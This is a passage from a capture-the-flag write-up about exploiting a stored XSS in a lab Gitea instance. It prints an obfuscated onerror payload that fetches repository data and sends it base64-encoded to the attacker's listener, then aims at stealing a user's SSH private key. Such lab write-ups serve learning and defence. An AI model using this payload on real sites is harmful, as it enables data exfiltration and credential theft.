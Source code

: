 We got a solid XSS PoC where we're able to exfiltrate data now we need to find a way to exploit this. Looking through the Gitea [API docs](http://dev.snippet.htb/api/swagger/) we have a lot of options, the first that comes to mind is _"GET /user"_ to show the authenticated user - in theory this should confirm what user is performing the XSS actions. To get a better understanding of the user performing my XSS calls lets see if we can extract any repo information using `http://dev.snippet.htb/api/v1/repos/search`. 

```bash
## Issues body
<remove-me><img sRc="e" onerror=eval.call`${"eval\x28atob`ZmV0Y2goJ2h0dHA6Ly9kZXYuc25pcHBldC5odGIvYXBpL3YxL3JlcG9zL3NlYXJjaCcpLnRoZW4ocmVzcG9uc2UgPT4gcmVzcG9uc2UudGV4dCgpKS50aGVuKGRhdGEgPT4gZmV0Y2goJ2h0dHA6Ly8xMC4xMC4xNC4xMC8nK2J0b2EoZGF0YSkpKQo=`\x29"}`>

## HTTP Server
10.10.11.171 - - [10/Sep/2022 10:05:49] "GET /eyJvayI6 [... snip ...]

➜  extension echo "eyJvayI6 [... snip ...]" | base64 -d > tmp_repos.txt
➜  extension python3 -m json.tool tmp_repos.txt > xss_repos.json
➜  extension cat xss_repos.json 
{
    "ok": true,
    "data": [
        {
            "id": 2,
            "owner": {
				[... snip ...]
                "username": "charlie"
            },
            "name": "backups",
            "full_name": "charlie/backups",
            "description": "Backup of my home directory",
			[... snip ...]
            "html_url": "http://dev.snippet.htb/charlie/backups",
            "ssh_url": "git@localhost:charlie/backups.git",
            "clone_url": "http://dev.snippet.htb/charlie/backups.git",
			[... snip ...]
            "default_branch": "master",
			[... snip ...]
            "permissions": {
                "admin": true,
                "push": true,
                "pull": true
			[... snip ...]
```

This seems very promising, `charlie` have a repo of his home directory and within we'll hopefully find his `id_rsa`. Lets try to expand the XSS further to `fetch(http://dev.snippet.htb/charlie/backups)`. Trying this for a few times and we get no callbacks, maybe the response is to big resulting in an error and hence no callbacks. Lets try to go right for the money instead, we can assume that `id_rsa` should be at `http://dev.snippet.htb/charlie/backups/raw/branch/master/.ssh/id_rsa`.

```bash
10.10.11.171 - - [10/Sep/2022 10:27:30] "GET /Tm90IGZvdW5kLgo= HTTP/1.1" 404 -

➜  extension echo "Tm90IGZvdW5kLgo=" | base64 -d
Not found.
```
